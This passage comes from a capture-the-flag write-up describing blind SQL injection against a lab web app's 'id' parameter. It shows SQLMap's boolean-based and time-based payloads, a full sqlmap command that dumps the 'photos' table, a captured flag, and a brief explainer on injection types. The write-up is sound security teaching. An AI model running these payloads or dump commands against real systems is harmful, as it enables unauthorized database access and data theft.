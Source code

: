 ### Vulnerability Confirmation
SQLMap identified two types of SQL injection:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1015=1015

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1035 FROM (SELECT(SLEEP(5)))fMTp)
```

### Database Structure Discovery
**Backend Database**: MySQL >= 5.0.12 (MariaDB fork)  
**Web Technology**: OpenResty 1.27.1.2  
**Target Database**: `level5`  
**Target Table**: `photos`  
**Key Column**: `filename`

### Data Extraction
Using targeted SQLMap commands to dump specific table data:

```bash
sqlmap -u "https://[target]/fetch?id=1" -D level5 -T photos -C filename --dump --batch --threads 5
```

### 🏁 First Flag Captured
```
c544ef210f04b81955b20380c262c72b468f5d27298c19e3d54e905ae31e5e2b
```

**Technique Used**: Blind SQL injection via automated SQLMap exploitation to extract database contents.

---

## 🔓 Understanding SQL Injection Vulnerabilities

### What is Blind SQL Injection?

**Blind SQL Injection** occurs when:

1. **Application is vulnerable** to SQL injection but doesn't return database errors
2. **No direct output** of query results in the response
3. **Behavior differences** reveal information about database queries
4. **Time-based or boolean-based** inference techniques required

### Attack Types Identified

```
┌─────────────────────┐    ┌──────────────────────┐    ┌─────────────────────┐
│   Boolean-Based     │    │   Time-Based         │    │   UNION-Based       │
│                     │    │                      │    │                     │
│ AND 1=1 (True)      │    │ AND SLEEP(5)         │    │ UNION SELECT        │
│ AND 1=2 (False)     │    │ Response delayed     │    │ Direct data access  │
│ Different responses │    │ vs normal timing     │    │ File system access  │
└─────────────────────┘    └──────────────────────┘    └─────────────────────┘
```
